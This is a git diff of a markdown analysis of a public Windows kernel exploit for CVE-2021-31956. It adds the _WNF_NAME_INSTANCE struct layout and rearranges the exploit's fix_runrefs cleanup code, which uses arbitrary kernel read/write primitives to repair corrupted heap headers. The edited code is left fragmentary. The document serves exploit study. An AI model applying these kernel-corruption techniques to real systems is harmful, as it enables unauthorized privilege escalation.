

Update

diff --git a/windows/CVE-2021-31956.md b/windows/CVE-2021-31956.md
@@ -672,6 +672,42 @@ In conclusion, our analysis shows that the purpose of this function is call `NtR
 
 ### The fix_runrefs Function
 
+Reviewing the [blog post by Y3A](https://y3a.github.io/2022/09/03/cve-2021-31956/), we see that the `fix_runrefs` function is used to clean up the heap after exploiting CVE-2021-31956. 
+
+
+
+
+[Vergilius Project](https://www.vergiliusproject.com/kernels/x64/Windows%2011/21H2%20(RTM)/_WNF_NAME_INSTANCE)
+
+```cpp
+copy
+//0xa8 bytes (sizeof)
+struct _WNF_NAME_INSTANCE
+{
+    struct _WNF_NODE_HEADER Header;                                         //0x0
+    struct _EX_RUNDOWN_REF RunRef;                                          //0x8
+    struct _RTL_BALANCED_NODE TreeLinks;                                    //0x10
+    struct _WNF_STATE_NAME_STRUCT StateName;                                //0x28
+    struct _WNF_SCOPE_INSTANCE* ScopeInstance;                              //0x30
+    struct _WNF_STATE_NAME_REGISTRATION StateNameInfo;                      //0x38
+    struct _WNF_LOCK StateDataLock;                                         //0x50
+    struct _WNF_STATE_DATA* StateData;                                      //0x58
+    ULONG CurrentChangeStamp;                                               //0x60
+    VOID* PermanentDataStore;                                               //0x68
+    struct _WNF_LOCK StateSubscriptionListLock;                             //0x70
+    struct _LIST_ENTRY StateSubscriptionListHead;                           //0x78
+    struct _LIST_ENTRY TemporaryNameListEntry;                              //0x88
+    struct _EPROCESS* CreatorProcess;                                       //0x98
+    LONG DataSubscribersCount;                                              //0xa0
+    LONG CurrentDeliveryCount;                                              //0xa4
+}; 
+```
+
+
+
+
+
+
 Examining the function declaration for `fix_runrefs`, we see the following: 
 
 ```cpp
@@ -715,33 +751,24 @@ PWNF_NAME_INSTANCE  cur = CONTAINING_RECORD(next, WNF_NAME_INSTANCE, TemporaryNa
 ```
 
 
-
-
-
-
-
-
+```cpp
+for (; next != head; next = read64(next), cur = CONTAINING_RECORD(next, WNF_NAME_INSTANCE, TemporaryNameListEntry))
+    
+    if ((UINT64)read64(&(cur->Header)) != (UINT64)0x0000000000A80903) {
+        write64(&(cur->Header), (UINT64)0x0000000000A80903);
+        write64(&(cur->RunRef), (UINT64)0x0000000000000000);
+    }
+```
 
 
 ```cpp
-NTSTATUS fix_runrefs(_In_ PWNF_PROCESS_CONTEXT ctx)
-{
-    NTSTATUS            status = STATUS_SUCCESS;
-    PLIST_ENTRY         head = (PLIST_ENTRY)read64(&(ctx->TemporaryNamesListHead));
-    PLIST_ENTRY         next = read64(head);
-    PWNF_NAME_INSTANCE  cur = CONTAINING_RECORD(next, WNF_NAME_INSTANCE, TemporaryNameListEntry);
+puts("[+] Fixed all overwritten header and runrefs");
 
-    for (; next != head; next = read64(next), cur = CONTAINING_RECORD(next, WNF_NAME_INSTANCE, TemporaryNameListEntry))
-        if ((UINT64)read64(&(cur->Header)) != (UINT64)0x0000000000A80903) {
-            write64(&(cur->Header), (UINT64)0x0000000000A80903);
-            write64(&(cur->RunRef), (UINT64)0x0000000000000000);
-        }
-
-    puts("[+] Fixed all overwritten header and runrefs");
-
-    return status;
-}
+return status;
 ```
+
+
+
 
 ### The steal_token Function
 
